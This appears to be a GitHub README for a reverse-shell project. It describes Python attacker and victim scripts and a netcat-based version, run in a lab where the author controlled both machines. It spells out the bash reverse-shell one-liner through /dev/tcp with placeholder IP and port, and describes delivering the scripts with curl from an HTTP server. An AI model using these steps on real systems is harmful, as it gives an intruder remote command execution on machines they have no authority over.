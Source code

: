 # ReverseShell

How to establish a reverse connection between two machines.

This repository has two versions:

The first one, the most basic, is based on the creation of a server socket by the attacking machine while from the victim machine a client socket is created that connects to the server socket. Once the connection is established, the attacking machine can send the commands to be executed on the victim machine and the victim machine sends back the response. In this version it is not possible to escalate privileges or to execute several commands using sockets.

The second, more complete, consists of using netcat on the attacking machine to subsequently establish a connection with the victim machine.

# Execution

In none of the versions it is necessary to install any dependency.

## v1

First, we must run the attacker.py script from the attacking machine to keep it waiting to establish a connection with the victim machine:

![1694529567943](image/README/1694529567943.png)

Subsequently, we run the victim.py script from the victim machine, and done this the connection will be established and it will already be possible to execute commands from the attacker machine receiving from the victim the output of that command:

![1694529583339](image/README/1694529583339.png)

![1694529591209](image/README/1694529591209.png)

## v2

First of all, we must use the netcat tool on the attacking machine. tool on the attacking machine so that it will listen in:

![1694529708414](image/README/1694529708414.png)

Subsequently, run the bash script (rs.sh) from the victim machine, so that a connection will be established on the attacking machine and commands can be executed:

![1694529874265](image/README/1694529874265.png)

![1694529880747](image/README/1694529880747.png)

# Additional comments

1. In both test cases, we had access to both machines and in order to pass both the python script (victim.py) and the bash script (rs.sh) we launched a python http server so that from the victim machine it was as easy as doing a curl or accessing the web server:

![1694530016118](image/README/1694530016118.png)	

- What I mean by this is that the way to get the scripts executed will vary depending on the services running on the victim machine and whether or not you have terminal access to it.

2. The bash script is as follows:

   bash -i >& /dev/tcp/`<ip>`/`<port>`&1

   whose ip value will be the IP of the attacking machine and port the port on which the attacking machine is listening with netcat
